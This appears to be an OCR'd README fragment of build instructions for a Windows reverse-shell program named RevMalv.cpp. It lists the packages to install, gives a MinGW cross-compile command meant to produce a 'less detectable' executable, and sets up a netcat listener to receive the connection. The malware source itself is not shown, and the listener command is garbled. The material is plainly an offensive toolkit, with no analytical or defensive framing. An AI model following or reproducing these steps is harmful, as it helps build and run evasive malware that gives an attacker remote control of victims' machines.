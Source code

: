 *** INSTALL REQUIREMENTS FOR COMPILE ***

// DEBIAN
sudo apt install netcat
sudo apt install g++mingw-w64-i686

// ARCH LINUX
sudo pacman -S gnu-netcat
sudo pacman -S mingw-w64-i686-gcc

---------------------------------------------------------------------------------------

// Compile the malware (RevMalv.cpp) into a lightweight and less detectable executable
// By using flags to strip debugging symbols and statically link libraries

---------------------------------------------------------------------------------------

i686-w64-mingw32-g++ -std=c++11 RevMalv.cpp -o RevMalv.exe -s -lws2_32 -Wno-write-strings -static -static-libstdc++ -static-libgcc

---------------------------------------------------------------------------------------

*** NETCAT LISTENER ***
// nc lvp -8080
- nc = netcat
- -lvp = listen-verbose-port
- 8080 = port
